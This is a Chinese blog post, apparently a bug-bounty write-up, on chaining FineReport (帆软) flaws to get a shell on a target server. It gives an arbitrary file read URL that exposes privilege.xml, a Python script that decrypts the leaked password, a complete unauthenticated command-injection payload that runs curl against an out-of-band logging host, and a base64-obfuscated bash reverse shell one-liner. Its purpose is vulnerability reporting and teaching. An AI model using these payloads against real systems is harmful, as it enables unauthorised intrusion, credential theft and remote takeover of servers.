









# 记一次帆软组合拳getshell

## 前言

看到某区发现帆软的组合漏洞文章，突然想起自己最近也挖到类似的，拿出来分享一下。

## 资产发现

首先是信息收集子域名，谷歌语句直接`site:xxx.com -www`,一个登录口网站吸引了我的注意力。



我点击电信、网通、自动的时候，发现域名跳转到了真实IP



这样，就可以对真实IP进行端口扫描->目录扫描一把梭了，发现在8080端口发现ReportServe部署页面。

http://xxx.xxx.xxx.xxxx:8080/ReportServer



接着就对帆软的历史漏洞进行测试了。

## 任意文件读取获取密码解密登录后台

`view-source:http://xxx.xxx.xxx.xxx:8080/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`

刚开始的时候是空白页，查看源代码才发现信息



可以看到用户为posun,密码需要解密一下

解密脚本：

```py
cipher = '___0022007c0039003b005100e3' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

解密得到123456，问题是拿到哪里登录呢，突然想到刚才有个数据决策系统，拿去登录刚才的数据决策系统.



成功进入后台，然而高兴的太早了,因为该站长注册码到期了，且没有什么敏感信息。SRC也是反馈危害性不大，不能收，没办法，只能另寻途径了。

## 帆软报表FineRePort未授权远程命令执行漏洞

看到去年的帆软还存在个未授权命令执行漏洞，搜了一下poc,发现在github有,

* https://github.com/ffffffff0x/1earn/blob/0583f77f62d63f93b1c519efc57327003feec4ed/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#%E5%B8%86%E8%BD%AF
* 影响版本:
  * 帆软报表 FineRePortv8.0
  * 帆软报表 FineRePortv9.0

```
xxx.com/WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin

这个接口 打开 点查询 burp拦截数据包 替换post的内容

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://uki7s7.ceye.io');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

便操作了一下,前提是需要得知用户名

漏洞地址：`http://xxx.xxx.xxx.xxx:8080/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=posun`,这里需要把username改为刚刚的用户名。



点击查询抓包改包，这里先是简单的ceye回显，改包后一直forward





可以看到，我的ceye收到回显，说明该漏洞是存在的，为了证明危害性，我后面继续了反弹shell操作

```
bash -c {echo,base64编码}|{base64,-d}|{bash,-i}
```

VPS监听7777端口，如图下 反弹shell成功



备注:刚开始对面审核SRC愣是死活复现不出来,手把手教学了,这里有几个问题注意下,查询不能太频繁 容易并发数满,需要等一段时间,我后面第二天并发数才清空.

## 总结

* 多观察细节,比如刚刚的真实IP就冒出来了
* 遇到危害性不大漏洞不要慌,留着还能组合其它的漏洞.
